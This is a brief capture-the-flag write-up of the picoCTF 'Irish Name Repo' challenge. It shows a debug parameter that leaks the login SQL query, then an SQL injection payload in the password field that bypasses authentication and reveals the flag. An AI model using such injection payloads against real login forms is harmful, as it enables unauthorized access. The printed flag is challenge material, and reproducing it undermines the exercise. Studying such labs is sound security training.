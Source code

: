 # Irish Name Repo

## solutions


after seaching i get login page 
<p align="center"> 
<img src="./loginpage.png">
</p>

let test login 

i got format 

```json 
username=admin&password=password&debug=0


```
and return 

```console 

<h1>Login failed.</h1>
```

change debug to 1 

return 
```
<pre>username: admin
password: password
SQL query: SELECT * FROM users WHERE name='admin' AND password='password'
</pre><h1>Login failed.</h1>
```

its indicate can use sql injection 

let try using 
```
username=admin&password=%27+OR+%271&debug=0
```
and return flag 

```
<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_f8adf3fb}</p>
```







